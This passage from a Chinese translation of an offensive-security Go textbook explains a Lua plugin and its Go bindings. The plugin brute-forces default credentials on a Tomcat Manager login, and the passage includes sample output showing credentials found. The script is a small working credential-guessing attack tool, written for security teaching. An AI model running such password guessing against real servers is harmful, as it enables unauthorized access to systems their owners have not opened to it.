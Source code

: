 现在让我们看一下用Lua编写的Tomcat插件脚本（清单 10-8）。

```lua
usernames = {"admin", "manager", "tomcat"}
passwords = {"admin", "manager", "tomcat", "password"}

status, basic, err = http.head("10.0.1.20", 8080, "/manager/html")
if err ~= "" then
    print("[!] Error: "..err)
    return
end
if status ~= 401 or not basic then
    print("[!] Error: Endpoint does not require Basic Auth. Exiting.")
    return
end
print("[+] Endpoint requires Basic Auth. Proceeding with password guessing")
for i, username in ipairs(usernames) do
    for j, password in ipairs(passwords) do
        status, basic, err = http.get("10.0.1.20", 8080, username, password, "/manager/html")
        if status == 200 then
            print("[+] Found creds - "..username..":"..password)
            return
        end
    end
end
```

清单 10-8: Tomcat 密码猜测Lua插件 \([https://github.com/blackhat-go/bhg/ch-10/lua-core/plugins/tomcat.lua/](https://github.com/blackhat-go/bhg/ch-10/lua-core/plugins/tomcat.lua/)\)

不必太担心漏洞检查逻辑。实际上和用Go所创建的插件的逻辑一样的；通过使用HEAD请求对应用程序进行指纹识别后，它将对Tomcat Manager门户执行基本的密码猜测。着重说两个有趣的地方。

第一个调用 `http.head("10.0.1.20", 8080, "/manager/html")` 。根据在状态元表上的全局和字段注册，可以对 `http.head()` 函数发出调用，而不会收到Lua错误。另外，提供了 `head()` 函数从 `LState` 实例读取的三个参数。Lua调用需要三个返回值，它们与退出Go函数之前压栈到 `LState` 的数字和类型一致。

第二个是调用 `http.get()` ，和调用 `http.head()` 相似。唯一不同的地方是传递用户名和密码给 `http.get()` 函数。如果参考用Go实现的 `get()` 函数，也是从 `LState` 实例中读取这两个额外的字符串。

### 测试Lua插件

这个示例并不完美，可以从其他设计注意事项获得好处。但是，与大多数攻击工具一样，最重要的是它可以工作并解决问题。运行代码证明它确实可以按预期工作：

```text
$ go run main.go
Found plugin: tomcat.lua
[+] Endpoint requires Basic Auth. Proceeding with password guessing 
[+] Found creds - tomcat:tomcat
```

现在有了一个基本的工作示例，我们鼓励您通过实现用户定义的类型来改进代码，以便不用在函数间传递冗长的参数列表。这样的话，可能需要暴露注册结构体实例的方法，是否在Lua中设置和获取值，或者用于在特定的实例上调用方法。当完成这些工作时，会注意到代码会变得更复杂，这是因为以Lua友好的方式封装了大量的Go的功能。

## 总结

和很多的设计决策一样，解决问题有多种方法。无论使用Go原生插件系统，还是像Lua这样的替代语言，必须要权衡利弊。但是不管采用什么方法，可以轻松地扩展Go以创建丰富的安全框架，特别是由于添加了原生插件系统。

下一章中，将要解决密码学的丰富主题。我们将演示各种实现和用例，然后构建一个RC2对称密钥暴力破解器。

